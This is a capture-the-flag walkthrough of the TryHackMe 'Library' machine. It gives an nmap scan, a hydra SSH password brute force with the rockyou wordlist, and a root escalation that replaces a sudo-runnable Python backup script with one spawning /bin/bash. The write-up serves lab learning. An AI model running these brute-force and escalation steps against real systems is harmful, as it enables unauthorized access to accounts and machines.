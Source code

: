 
```bash
# PLATFORM          . THM
# CTF NAME          . Library
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtlibrary
```

```
sudo nmap -sSVC -T5 -p- 10.10.59.93 -oN library
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c42fc34767063204ef92918e0587d5dc (RSA)
|   256 689213ec9479dcbb7702da99bfb69db0 (ECDSA)
|_  256 43e824fcd8b8d3aac248089751dc5b7d (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80

- From the nnamp scan, we see that there's a disallowed entry in robots.txt.

```
User-agent: rockyou 
Disallow: /
```

- I tried using the `rockyou` User-Agent both via curl and in Burp Suite but I got no different answer so I assume this is a hint to use rockyou on SSH service (since this is the only service left).

- I took a look on the website and I saw that the article was posted by the user `meliodas`.

- I've decided to bruteforce the SSH service using hydra and `meliodas` as username 

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.59.93 ssh -I -t 4 -v
```

```
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344195 to do in 8203:23h, 4 active
[22][ssh] host: 10.10.59.93   login: meliodas   password: {REDACTED}
```

- The user flag is located in `/home/meliodas/user.txt`.

- In the home directory there's also a `bak.py` script

```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

```
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

#### PRIVILEGE ESCALATION 

- We cannot write or alter that `bak.py` file but we can remove it entirely since it is in our home directory.

- Then, we can create another `bak.py` file with arbitrary content

```
import os
os.system("/bin/bash")
```

- Now, we can execute `sudo python /home/meliodas/bak.py` and get a shell as root.

- The last flag is in `/root/root.txt`.

